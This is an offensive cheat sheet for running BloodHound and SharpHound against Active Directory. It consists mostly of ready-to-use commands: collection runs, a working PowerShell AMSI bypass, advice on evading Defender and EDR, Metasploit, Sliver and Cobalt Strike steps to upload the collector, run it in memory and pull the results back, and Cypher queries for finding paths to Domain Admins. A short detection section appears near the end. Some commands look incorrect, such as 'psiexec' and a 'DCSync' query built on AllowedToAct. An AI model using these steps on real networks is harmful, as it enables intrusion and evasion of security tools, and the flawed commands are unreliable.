 
### **BloodHound & SharpHound Cheat Sheet**

BloodHound and SharpHound are powerful tools used to analyze Active Directory (AD) environments and discover attack paths. Here's a cheat sheet on using these tools effectively, including evasion techniques and integration with Metasploit and Sliver.

---

### **1. BloodHound Overview**

- **BloodHound**: A tool that visualizes AD attack paths. It uses graph theory to reveal the shortest path an attacker might take to reach high-privilege accounts.

- **SharpHound**: The data collection tool used by BloodHound. It collects information about the AD environment and outputs data that BloodHound can analyze.

---

### **2. Basic BloodHound & SharpHound Workflow**

1. **Deploy SharpHound** to collect data from the AD environment.
   ```bash
   SharpHound.exe -c All
   ```

2. **Ingest the data** collected by SharpHound into BloodHound.
   - Use the BloodHound GUI to upload the JSON files created by SharpHound.

3. **Analyze the data** using the BloodHound interface.
   - Identify attack paths, high-value targets, and potential lateral movement strategies.

---

### **3. Common SharpHound Collection Methods**

- **All Data Collection**:
  ```bash
  SharpHound.exe -c All
  ```

- **Session Collection**:
  ```bash
  SharpHound.exe -c Session
  ```

- **Group Membership Collection**:
  ```bash
  SharpHound.exe -c Group
  ```

- **ACL Collection**:
  ```bash
  SharpHound.exe -c ACL
  ```

- **Custom Collection**:
  ```bash
  SharpHound.exe -c "ObjectProps,Group,Trusts,ACL,Container,SPNTargets,GPOLocalGroup,Session,LoggedOn"
  ```

- **Domain Admins Path Collection**:
  ```bash
  SharpHound.exe -c DCOM,PSRemote,ACL,Trusts,SPNTargets -d DOMAIN -p BloodHound
  ```

---

### **4. Evasion Techniques**

#### **Bypass AMSI:**
- **AMSI** (Antimalware Scan Interface) can detect and block SharpHound. To bypass it:
  - Use obfuscated or custom binaries of SharpHound.
  - Use AMSI bypass techniques before executing SharpHound.

- **Example of AMSI Bypass in PowerShell**:
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
  ```

#### **Evade Defender/EDR:**
- Use SharpHound with **obfuscated signatures**.
- **Rename SharpHound** executables to avoid signature-based detection.
- Use **reflective loaders** to execute SharpHound in-memory without writing to disk.
- Utilize **packing tools** or **custom crypters** to avoid detection.

#### **In-Memory Execution:**
- Use **Cobalt Strike**, **Metasploit**, or **Sliver** to inject SharpHound directly into memory.

---

### **5. Using SharpHound with Metasploit & Sliver**

#### **Metasploit Integration:**
- **Upload SharpHound via Metasploit**:
  ```bash
  upload /path/to/SharpHound.exe C:\\Windows\\Temp\\SharpHound.exe
  ```
- **Execute SharpHound**:
  ```bash
  execute -f C:\\Windows\\Temp\\SharpHound.exe -c All
  ```
- **Download the results**:
  ```bash
  download C:\\Windows\\Temp\\*.zip /local/path
  ```

#### **Sliver Integration:**
- **SharpHound in Sliver**:
  - Generate a payload that can execute SharpHound in memory using Sliver's `execute-assembly` command.

  ```bash
  sliver > execute-assembly /path/to/SharpHound.exe -c All
  ```

- **Sliver AMSI Bypass**:
  - Use AMSI bypass techniques before executing SharpHound in Sliver.

  ```bash
  sliver > psiexec -c "[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"
  ```

---

### **6. Advanced Techniques**

- **SharpHound with Cobalt Strike**:
  - Use **execute-assembly** to run SharpHound directly in memory.
  ```bash
  execute-assembly /path/to/SharpHound.exe -c All
  ```

- **Custom C2 Profiles**:
  - Modify C2 profiles to reduce the likelihood of detection when executing BloodHound-related tasks.

- **Obfuscation**:
  - Obfuscate the SharpHound binary using tools like `ConfuserEx` or custom obfuscators to evade detection.

---

### **7. Detection and Mitigation**

- **Detection**:
  - Monitor for large numbers of LDAP queries, which are common during SharpHound data collection.
  - Watch for unusual Kerberos ticket requests or DCOM execution.

- **Mitigation**:
  - Limit unnecessary delegation and administrative privileges.
  - Implement stringent network segmentation and monitoring.
  - Regularly audit AD permissions and clean up stale accounts.

---

### **8. BloodHound Queries (Cypher) Examples**

- **Find Domain Admins**:
  ```cypher
  MATCH (n:User)-[:MemberOf*1..]->(g:Group) WHERE g.name = "DOMAIN ADMINS@DOMAIN.LOCAL" RETURN n.name
  ```

- **Find Paths to Domain Admin**:
  ```cypher
  MATCH p=shortestPath((n:User {name:"lowprivuser@DOMAIN.LOCAL"})-[r*1..]->(m:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"})) RETURN p
  ```

- **Find Users with SPN (Service Principal Name)**:
  ```cypher
  MATCH (u:User) WHERE u.hasspn = true RETURN u.name
  ```

- **Identify Users with DCSync Rights**:
  ```cypher
  MATCH (c:User {name:"DOMAIN\\Administrator"})-[r:AllowedToAct]->(g:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}) RETURN c.name, r
  ```

---

This cheat sheet provides essential commands and strategies for using BloodHound and SharpHound effectively, including tips for evading AMSI, Defender, and EDR solutions, and how to integrate these tools with Metasploit and Sliver.